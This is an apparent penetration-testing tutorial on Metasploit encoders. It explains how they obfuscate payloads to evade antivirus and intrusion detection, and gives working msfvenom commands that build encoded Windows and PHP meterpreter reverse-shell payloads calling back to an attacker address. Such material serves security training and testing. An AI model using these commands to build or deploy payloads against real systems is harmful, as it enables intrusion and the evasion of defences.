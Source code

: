 Encoders in Metasploit are used to obfuscate payloads to bypass detection mechanisms, such as antivirus software and intrusion detection systems (IDS). Encoding helps avoid detection by reformatting the payload without altering its functionality.

---

### **How Encoders Work**
1. **Obfuscation**: Encoders transform the payload into a new format to make it less recognizable.
2. **Decoding at Execution**: Once the encoded payload is executed on the target system, it decodes itself back to the original form.
3. **Iteration**: Encoders can be applied multiple times (`-i` flag) to increase complexity.

---

### **Commonly Used Encoders**
Here are some popular encoders and their purposes:
- **x86/shikata_ga_nai**: One of the most popular encoders. Polymorphic and highly effective for Windows.
- **cmd/powershell_base64**: Encodes payloads in Base64 for PowerShell delivery.
- **php/base64**: Encodes PHP payloads in Base64.
- **ruby/base64**: Encodes Ruby payloads in Base64.
- **x86/call4_dword_xor**: XOR-based encoder for x86 architectures.
- **x86/bloxor**: A polymorphic XOR-based encoder.

---

### **Encoding Syntax**
```bash
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<PORT> -e <ENCODER> -i <ITERATIONS> -f <FORMAT> -o <OUTPUT>
```

- `-e`: Specifies the encoder.
- `-i`: Number of iterations to encode.
- `-f`: Output format (e.g., exe, elf, raw).
- `-o`: Output file name.

---

### **Examples of Encoding Payloads**

#### **1. Using x86/shikata_ga_nai Encoder**
This is the most common encoder for Windows payloads:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_payload.exe
```
- **LHOST**: Attacker's IP address.
- **LPORT**: Listening port.
- **-i 5**: Encodes the payload 5 times.

#### **2. PHP Payload with Base64 Encoding**
Useful for delivering web-based payloads:
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e php/base64 -f raw -o encoded_payload.php
```
